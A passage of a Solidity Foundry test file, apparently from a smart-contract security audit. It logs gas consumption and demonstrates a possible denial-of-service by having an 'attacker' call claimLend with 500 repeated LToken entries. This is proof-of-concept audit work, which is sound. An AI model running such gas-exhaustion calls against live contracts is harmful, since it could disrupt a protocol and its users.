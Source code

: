 ```solidity
            
            vm.stopPrank();
        }
        
        console2.log("=== End Gas Consumption Test ===");
    }

    /**
     * @notice Test to demonstrate potential out-of-gas scenario with very large arrays
     */
    function test_potential_dos_with_large_array() public {
        address lTokenForClaim = lTokensDeployed[0];
        address[] memory holders = new address[](1);
        holders[0] = attacker;
        
        // Test with a very large array that could cause DoS
        uint16 largeArraySize = 500;
        
        LToken[] memory lTokensToClaimIn = new LToken[](largeArraySize);
        for (uint16 j = 0; j < largeArraySize; j++) {
            lTokensToClaimIn[j] = LToken(lTokenForClaim);
        }
        
        console2.log("=== Testing Potential DoS with Array Size: %s ===", largeArraySize);
        
        vm.startPrank(attacker);
        
        uint256 gasStart = gasleft();
        
        try coreRouter.claimLend(holders, lTokensToClaimIn, false, true) {
            uint256 gasUsed = gasStart - gasleft();
            console2.log("Large array call SUCCEEDED with gas: %s", gasUsed);
            console2.log("This demonstrates that arrays of size %s can consume significant gas", largeArraySize);
        } catch Error(string memory reason) {
            uint256 gasUsed = gasStart - gasleft();
            console2.log("Large array call FAILED. Reason: %s", reason);
            console2.log("Gas used until failure: %s", gasUsed);
            console2.log("This demonstrates DoS potential with large arrays");
        } catch (bytes memory lowLevelData) {
            uint256 gasUsed = gasStart - gasleft();
            console2.log("Large array call FAILED with low-level error");
            console2.log("Low-level data: %s", vm.toString(lowLevelData));
            console2.log("Gas used until failure: %s", gasUsed);
            console2.log("This demonstrates DoS potential with large arrays");
        }
        
        vm.stopPrank();
        console2.log("=== End DoS Test ===");
    }
}
```
